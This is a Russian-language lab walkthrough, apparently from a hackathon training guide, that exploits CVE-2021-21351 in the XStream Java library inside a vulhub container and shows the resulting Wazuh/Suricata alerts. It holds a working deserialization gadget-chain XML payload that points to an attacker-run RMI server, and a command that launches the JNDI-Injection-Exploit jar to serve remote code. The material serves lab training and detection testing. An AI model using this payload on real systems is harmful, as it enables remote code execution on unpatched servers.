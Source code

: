 # CVE-2021-21351

### Материалы:

* [https://access.redhat.com/security/cve/CVE-2021-21351](https://access.redhat.com/security/cve/CVE-2021-21351)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-21351](https://nvd.nist.gov/vuln/detail/CVE-2021-21351)
* [https://x-stream.github.io/CVE-2021-21351.html](https://x-stream.github.io/CVE-2021-21351.html)

XStream - это Java-библиотека для сериализации объектов в XML. В XStream до версии 1.4.16 существует уязвимость, которая может позволить удаленному злоумышленнику загрузить и выполнить произвольный код с удаленного хоста, манипулируя обрабатываемым входным потоком.

### Эксплуатация уязвимости&#x20;

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/xstream/CVE-2021-21351

Для запуска уязвимого сервера выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды&#x20;

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 95

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>10</age>
</user>
```

<figure><img src="../../.gitbook/assets/cve-2021-21351(1).png" alt=""><figcaption></figcaption></figure>

> Если у вас возникают ошибки сервера в ответе, попробуйте поменять версию Java 18 на машине с помощью команды sudo update-alternatives --config java, установив перед этим соответствующий пакет

<figure><img src="../../.gitbook/assets/cve-2021-21351(2).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно поднять зловредный RMI-сервер на "атакующей" машине (можно использовать уже имеющуюся) с помощью [данного](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) архива

Для этого выполните команду:

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A ваш-ip(атакующий)
```

<figure><img src="../../.gitbook/assets/cve-2021-21351(3).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий POST-запрос на сервер:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://ip_RMI-сервера:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>

```

<figure><img src="../../.gitbook/assets/cve-2021-21351(4).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл "/tmp/success", свидетельствующий об успешной эксплуатации уязвимости

<figure><img src="../../.gitbook/assets/cve-2021-21351(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java ("touch tmp/success")

<figure><img src="../../.gitbook/assets/cve-2021-21351(6).png" alt=""><figcaption></figcaption></figure>

